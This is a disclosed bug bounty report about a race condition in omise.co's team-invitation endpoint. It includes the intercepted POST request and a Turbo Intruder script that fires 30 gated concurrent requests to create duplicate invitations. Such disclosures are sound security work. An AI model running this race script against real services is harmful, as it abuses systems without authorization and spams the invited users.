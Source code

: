 # Race condition on action: Invite members to a team

## Report Details
- **Report ID**: 1285538
- **URL**: https://hackerone.com/reports/1285538
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-07-31T15:37:56.644Z
- **Disclosed**: 2022-03-22T21:52:00.002Z

## Reporter
- **Username**: sim4n6
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: omise

## Vulnerability Information
## Summary:
Hello there,

I've found a race condition vulnerability which allows the invitation of the same member multiple times to a single team via the dashboard.

## Tools needed:
 * Burp Suite community edition  with the extension Turbo Intruder.
This is the way I adopted to detect such vulnerability, there is also other ways.

## Steps to reproduce:

  1. Login to an account on omise.co.
  1. Invite a member for testing 
  1. Intercept the main request to the endpoint /team/memberships using the method POST. Modify the HTTP/1.1 protocol for the communication and add `x-request: %s` for Turbo intruder extension. 
```
POST /team/memberships HTTP/2
Host: dashboard.omise.co
Cookie: ██████████
Content-Length: 271
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="91", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: ███
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: ███████
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
x-request: %s
Connection: close

authenticity_token=<TOKEN>email=<INVITED-EMAIL>&membership%5Badmin%5D=0&membership%5Badmin%5D=1&membership%5Btechnical%5D=0&membership%5Btechnical%5D=1&commit=Send+invitation
```

  1. Send the modified intercepted request with the invited member to Turbo intruder, and write the following attack code :
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

  1. Start the Turbo intruder attack. The results are captured in the following screenshots: 
█████████ 
As you can see there is multiple `200 OK` which means a race condition vulnerability happened.

 1. Check the list of invited members to the team. In my case, I used in this attack the invited member : `█████████████████`. As you can see the list of invited members to the team is duplicate many times.  
██████████

However, when the invited user is already invited. You get the following error message :
█████████

1. As consequence of the attack, the same email got invited  and received multiple emails as can be seen in the following email:
 ████

 1. By the way, the bug persists even if the invited member accept the invitation. More invitations will remain in the list of the invited members of the team which is undesirable by design.   

If you need any further details, please let me know.
Regards.

## Impact

Race Condition vulnerability allows the invitation of the same user multiple times.

## Attachments
No attachments
